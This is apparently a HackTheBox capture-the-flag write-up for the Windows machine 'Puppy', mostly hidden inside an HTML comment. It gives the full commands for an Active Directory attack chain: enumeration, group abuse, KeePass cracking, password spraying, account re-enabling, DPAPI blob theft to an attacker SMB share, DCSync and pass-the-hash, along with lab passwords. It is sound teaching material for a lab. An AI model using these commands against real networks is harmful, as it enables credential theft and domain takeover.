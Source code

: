 # Puppy
```
Difficulty: Medium
Operating System: Windows
Hints: True
```

Nmap Scan
First, we perform an Nmap scan to identify open ports and services on the target puppy.htb.

Bash
```
nmap puppy.htb -sV
```
The scan reveals several open ports, including 53 (DNS), 88 (Kerberos), 135 (MSRPC), 139 (NetBIOS), 389 (LDAP), 445 (SMB), and 5985 (WinRM HTTP), indicating a Windows Active Directory environment.

Enumerating Users with rpcclient
Using the provided levi.james credentials, we attempt to enumerate domain users via rpcclient.

Bash
```
rpcclient 10.xx.xx.xx -U levi.james
```
After authenticating, we use enumdomusers to list users:

rpcclient $> enumdomusers
This successfully lists several users, including Administrator, Guest, krbtgt, levi.james, ant.edwards, adam.silver, jamie.williams, steph.cooper, and steph.cooper_adm.

SMB Share Enumeration with smbmap
Next, we use smbmap to enumerate accessible SMB shares on the target.

Bash
```
smbmap -H 10.xx.xx.xx -u levi.james -p 'KingofAkron2025!'
```
The output shows several shares. Notably, the DEV share is listed but currently inaccessible with NO ACCESS. We also see IPC$, NETLOGON, and SYSVOL with READ ONLY permissions.

Bloodhound for Initial Reconnaissance
To understand the Active Directory structure and identify potential attack paths, we'll use BloodHound. Before running BloodHound, we add dc.puppy.htb to /etc/hosts and synchronize the time.

Bash
```
ntpdate puppy.htb
```
Then, we collect data with bloodhound-python:

Bash
```
bloodhound-python -u 'levi.james' -p 'KingofAkron2025!' -d puppy.htb -ns 10.xx.xx.xx -c All --zip
```
![Shares](Pictures/HTB_Puppy_ADHR.png)

Gaining Access to the DEV Share

![Access](Pictures/HTB_Puppy_ADHR_Dev.png)

**Access Restricted by HackTheBox Rules**

<!--

Analyzing the BloodHound data, we find that the levi.james user has write permissions to the DEVELOPERS group. This is a crucial finding, as gaining membership in this group might grant access to the DEV share.

We use bloodyAD to add levi.james to the DEVELOPERS group:

Bash
```
bloodyAD --host '10.xx.xx.xx' -d 'dc.puppy.htb' -u 'levi.james' -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james
```
With levi.james added to the DEVELOPERS group, we can now access the DEV share using smbclient.

Bash
```
smbclient //10.xx.xx.xx/DEV -U levi.james
```
Listing the contents of the DEV share, we find recovery.kdbx, which appears to be a KeePass database.

Privilege Escalation (KeePass Brute-Force)
We've found a KeePass database, which likely contains valuable credentials. Our next step is to brute-force its password.

Cracking recovery.kdbx
We first try to use keepass2john to convert the .kdbx file into a hash format suitable for John the Ripper, but it reports an unsupported file version.

Bash
```
keepass2john recovery.kdbx
```
Instead, we turn to r3nt0n/keepass4brute, a tool specifically designed for KDBX 4.x formats. We use it with the rockyou.txt wordlist.

Bash
```
./keepass4brute.sh ../recovery.kdbx /usr/share/wordlists/rockyou.txt
```
The brute-force is successful, and the password for recovery.kdbx is found to be **liv....ol**.

Extracting Credentials from KeePass
We open recovery.kdbx using keepassxc and extract several password values:

HJ...025!

Antma...25!

JamieL..e2025!

IL...25!

St.....25!

Privilege Escalation (Credential Reuse & Account Manipulation)
With a list of new passwords, we can attempt to reuse them against various user accounts to gain higher privileges.

Password Spraying with netexec
We perform a password spray attack using netexec against the identified usernames and the extracted passwords.

Bash

```
netexec smb 10.xx.xx.xx -u usernames.txt -p pass.txt
```
The password spray reveals a successful login: ant.edwards/Antman2025!.

Bloodhound with ant.edwards
We collect BloodHound data again, this time with the newly compromised ant.edwards credentials.

Bash
```
bloodhound-python -u 'ant.edwards' -p 'Antman2025!' -d puppy.htb -ns 10.xx.xx.xx -c All --zip
```
Analysis of the BloodHound results indicates that the group ant.edwards is a member of has full control over the adam.silver user object. This is a significant finding, as it allows us to reset adam.silver's password.

Resetting adam.silver's Password
We use bloodyAD to change adam.silver's password.

Bash
```
bloodyAD --host '10.xx.xx.xx' -d 'dc.puppy.htb' -u 'ant.edwards' -p 'Antman2025!' set password ADAM.SILVER Abc123456!
```
Although the password change is reported as successful, we are unable to log in with adam.silver.

Enabling adam.silver's Account
We investigate the adam.silver account using ldapsearch to determine why login is failing.

Bash
```
ldapsearch -x -H ldap://10.xx.xx.xx -D "ANT.EDWARDS@PUPPY.HTB" -W -b "DC=puppy,DC=htb" "(sAMAccountName=ADAM.SILVER)"
```
The output reveals userAccountControl: 66050, which signifies that the account is disabled.

To enable the account, we modify the userAccountControl attribute using ldapmodify. The value 66048 represents an enabled account.

Bash
```
ldapmodify -x -H ldap://10.xx.xx.xx -D "ANT.EDWARDS@PUPPY.HTB" -W << EOF
dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 66048
EOF
```
![Flag](Pictures/HTB_PUPPY_USER.png)
### Privilege Escalation (Backup Files & DPAPI)

With adam.silver's account now enabled, we can proceed to look for further privilege escalation opportunities.

Investigating Backups
We connect to the target using evil-winrm with adam.silver's credentials.

Bash
```
evil-winrm -i 10.xx.xx.xx -u 'ADAM.SILVER' -p 'Abc123456!'
```


Once connected, we check the C:\Backups directory and find a site-backup-2024-12-30.zip file.

PowerShell
```
ls C:\Backups
```
We download the backup file to our Kali machine.

PowerShell
```
download site-backup-2024-12-30.zip
```
Upon decompressing the zip file, we discover nms-auth-config.xml.bak, which contains the credentials for steph.cooper: Chef......025!.

Bash
```
cat nms-auth-config.xml.bak
```
Bloodhound with steph.cooper
We collect BloodHound data again using steph.cooper's credentials.

Bash
```
bloodhound-python -u 'steph.cooper' -p 'ChefSteph2025!' -d puppy.htb -ns 10.xx.xx.xx -c All --zip
```
The BloodHound results don't immediately reveal any obvious paths to domain administrator. This suggests a different approach might be needed.

DPAPI Decryption
Recalling a previously seen DPAPI blob on adam.silver's desktop, we decide to investigate steph.cooper's DPAPI credentials. Windows Credential Manager stores credentials encrypted with DPAPI, which requires the user's master key.

We locate the DPAPI credentials and master key blobs for steph.cooper.

PowerShell
```
dir -h C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials
dir -h C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107
```
Direct download of these files may cause issues, so we set up an impacket-smbserver on our Kali machine to receive the files.

Bash
```
impacket-smbserver share ./share -smb2support
```
Then, from the evil-winrm shell, we copy the masterkey_blob and credential_blob to our SMB share.

PowerShell
```
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" \\10.10.16.75\share\masterkey_blob
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" \\10.10.16.75\share\credential_blob
```
Now, we use impacket-dpapi to decrypt the master key using steph.cooper's password and SID.

Bash
```
impacket-dpapi masterkey -file masterkey_blob -password 'Ch......2025!' -sid S-1-5-21-1487982659-...........-2281216199-1107
```
This command outputs the decrypted master key.

Finally, we use the decrypted master key to decrypt the credential_blob, which reveals the plaintext credentials.

Bash
```
impacket-dpapi credential -file credential_blob -key 0xd9a5707.....................91b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```
This successfully extracts the password for steph.cooper_adm: FivethC..........2025!.

Domain Dominance
We now have the credentials for steph.cooper_adm, which is a likely candidate for a highly privileged account.

Bloodhound with steph.cooper_adm
We run BloodHound one last time with the steph.cooper_adm credentials.

Bash
```
bloodhound-python -u 'steph.cooper_adm' -p 'Fiveth.............025!' -d puppy.htb -ns 10.xx.xx.xx -c All --zip
```
While the BloodHound output might not immediately show a direct path, the name steph.cooper_adm strongly suggests administrative privileges.

DCSync with impacket-secretsdump
Given the administrative nature of steph.cooper_adm, we attempt a DCSync attack using impacket-secretsdump to extract NTLM hashes of all domain accounts, including the Administrator account.

Bash
```
impacket-secretsdump 'puppy.htb/steph.cooper_adm:Fivet................2025!'@10.xx.xx.xx
```
This command successfully dumps the NTLM hashes for all domain users, including the Administrator account.

Final Access as Administrator
With the Administrator NTLM hash, we can now use evil-winrm to gain a shell as the Administrator and retrieve the root.txt flag.

Bash
```
evil-winrm -i 10.xx.xx.xx -u 'Administrator' -H '<HIDDEN_ADMIN_HASH>'
cd ../desktop
cat root.txt
```
![Flag](Pictures/HTB_PUPPY_ROOT.png)
Once connected, navigate to the desktop and retrieve the flag
This completes the penetration test, gaining full control of the domain.

#### 🏁 Summary of Attack Chain
```

| Step | User / Access        | Technique Used                                                                 | Result                                                                                     |
|------|----------------------|----------------------------------------------------------------------------------|--------------------------------------------------------------------------------------------|
| 1    | levi.james           | Nmap, rpcclient, smbmap, BloodHound                                             | Identified open ports, enumerated users, found inaccessible DEV share                     |
| 2    | levi.james           | bloodyAD (Group Membership)                                                     | Added levi.james to DEVELOPERS group, gained access to DEV share                          |
| 3    | levi.james           | SMB, KeePass Brute-Force                                                         | Downloaded `recovery.kdbx`, cracked password (`liXXXXool`)                                |
| 4    | (Local)              | KeePass Extraction                                                               | Obtained various user passwords (e.g., `HXXXX25!`, `Antman2025!`)                        |
| 5    | (Multiple Users)     | Netexec (Password Spray)                                                         | Identified `ant.edwards` / `AnXXXX25!` as valid credentials                             |
| 6    | ant.edwards          | BloodHound (ACL Analysis)                                                       | Found `ant.edwards` had Full Control over `adam.silver` user object                       |
| 7    | ant.edwards          | bloodyAD (Password Reset)                                                       | Reset `adam.silver`'s password, but account was disabled                                  |
| 8    | ant.edwards          | ldapsearch, ldapmodify                                                           | Enabled `adam.silver`'s account                                                           |
| 9    | adam.silver          | Evil-WinRM, SMB                                                                  | Connected via WinRM, downloaded `site-backup-2024-12-30.zip`                              |
| 10   | (Local)              | File Analysis                                                                    | Discovered `steph.cooper` / `ChXXXXXX25!` in backup file                               |
| 11   | steph.cooper         | Evil-WinRM, impacket-smbserver, impacket-dpapi                                  | Extracted DPAPI master key and `steph.cooper_adm` credentials (`FiveXXXXXXXXXXXay2025!`) |
| 12   | steph.cooper_adm     | impacket-secretsdump (DCSync)                                                   | Dumped NTLM hashes for all domain accounts, including `Administrator`                     |
| 13   | Administrator        | Evil-WinRM (Pass-the-Hash)                                                      | Gained Administrator shell, retrieved `root.txt`                                          |

```

**Pwned! Puppy**

-->